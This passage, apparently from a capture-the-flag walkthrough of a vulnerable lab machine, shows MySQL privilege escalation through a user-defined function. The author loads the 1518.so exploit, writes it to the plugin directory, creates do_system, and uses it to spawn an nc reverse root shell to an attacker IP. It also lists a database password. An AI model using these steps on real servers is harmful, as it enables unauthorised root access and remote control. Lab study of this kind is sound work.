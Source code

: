 ```
$ mysql -u root -p wordpress
mysql -u root -p wordpress
Enter password: R@v3nSecurity

[...]

mysql> use mysql
use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob)
create table foo(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/var/www/html/1518.so'));
insert into foo values(load_file('/var/www/html/1518.so'));
Query OK, 1 row affected (0.01 sec)
```

<p>Going smoothly so far. This next step requires you to put the .so file into the MySQL plugin directory, the location of which can vary depending on the system. To find it, you can use the <code>@@plugin_dir</code> global variable in MySQL. It is <code>/usr/lib/mysql/plugin/</code> on this system.</p>

```
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname '1518.so';
create function do_system returns integer soname '1518.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func;
select * from mysql.func;
+-----------+-----+---------+----------+
| name      | ret | dl      | type     |
+-----------+-----+---------+----------+
| do_system |   2 | 1518.so | function |
+-----------+-----+---------+----------+
1 row in set (0.01 sec)
```

<p>
I was having some trouble with the rest of the instructions, so I decided to just have it spawn a root shell using nc that I would then connect to on my machine.  Start a listener on your attacking machine with <code>nc -lvp 4444</code>, then connect to it by using nc in MySQL back on the victim machine.
</p>        

```
mysql> select do_system('nc -nv 192.168.1.16 4444 -e /bin/bash'); 
select do_system('nc -nv 192.168.1.16 4444 -e /bin/bash');
```
